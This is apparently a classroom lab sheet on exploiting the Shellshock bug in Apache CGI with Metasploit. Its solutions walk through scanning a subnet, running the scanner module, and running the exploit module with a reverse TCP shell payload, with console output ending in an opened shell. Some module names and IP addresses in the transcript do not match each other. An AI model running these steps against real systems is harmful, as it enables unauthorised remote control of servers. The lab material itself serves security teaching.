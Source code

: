 # Shellshock Exploitation


## Instructions
- Launch the [Linux Exploitation](https://cybrscore.learnondemand.net/Lab/28535) lab.
- Scan your subnet for live hosts. Identify the host(s) running an Apache HTTP server.
- Use Metasploit to `search` for Metasploit modules related to Shellshock.
- Use Metasploit to scan live hosts for the Shellshock vulnerability.
  - **Hint**: Check the `/cgi-bin/status.cgi` endpoint. Look for a `auxiliary` module.
- Attempt to exploit the server with the modules related to Apache. Record which one works.

## Solutions
- Launch the [Linux Exploitation](https://cybrscore.learnondemand.net/Lab/28535) lab.

- Open a terminal, and launch `msfconsole`.

- Identify your IP address and netmask with: `ifconfig`

- Scan your subnet with: `db_nmap 10.0.0.0/24`

- Identify Apache servers on `10.0.0.100` and `10.0.0.101`.

- Use Nmap to scan each of these hosts for Shellshock. 

- Search for Shellshock modules. You'll identify two related to Apache: `auxiliary/scanner/http/apache_mod_cgi_bash_env` and `exploit/multi/http/apache_mod_cgi_bash_env_exec`.
  - The scanner is used to test for the vulnerability.
  - The exploit actually exploits the vulnerability.


  ```bash
  msf> search shellshock

  Matching Modules
  ================
  
     Name                                               Disclosure Date  Rank       Description
     ----                                               ---------------  ----       -----------
     auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
     auxiliary/server/dhclient_bash_env                 2014-09-24       normal     DHCP Client Bash Environment Variable Code Injection (Shellshock)
     exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Advantech Switch Bash Environment Variable Code Injection (Shellshock)
     exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  IPFire Bash Environment Variable Injection (Shellshock)
     exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
     exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
     exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  CUPS Filter Bash Environment Variable Code Injection (Shellshock)
     exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
     exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
     exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
     exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  Dhclient Bash Environment Variable Injection (Shellshock)
     exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     Qmail SMTP Bash Environment Variable Injection (Shellshock)
  ```

- Load and use the scanner. You'll see that the target is vulnerable.

  ```bash
  msf > use auxiliary/scanner/http/apache_mod_cgi_bash_env
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > SET RHOST 10.0.0.100
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > SET TARGETURI /cgi-bin/status.cgi
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > exploit
  ```

- Load and use the exploit. You'll be greeted with a reverse shell.

  ```bash
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > use exploit/multi/http/apache_mod_cgi_bash_env

  msf exploit(multi/http/apache_mod_cgi_bash_env) > SET RHOST 10.0.0.100

  msf exploit(multi/http/apache_mod_cgi_bash_env) > SET TARGETURI /cgi-bin/status.cgi

  msf exploit(multi/http/apache_mod_cgi_bash_env) > SET PAYLOAD linux/x86/shell/reverse_tcp

  msf exploit(multi/http/apache_mod_cgi_bash_env) > check
    [*] 10.0.0.100:80 The target is vulnerable.

  msf exploit(multi/http/apache_mod_cgi_bash_env) > exploit
    [*] Started reverse TCP handler on 172.16.1.100:4444
    [*] Command Stager progress - 100.46% done (1097/1092 bytes)
    [*] Sending stage (36 bytes) to 172.16.1.102
    [*] Command shell session 2 opened (172.16.1.100:4444 -> 172.16.1.102:49499)
  ```

- Take a moment to address remaining questions before proceeding.
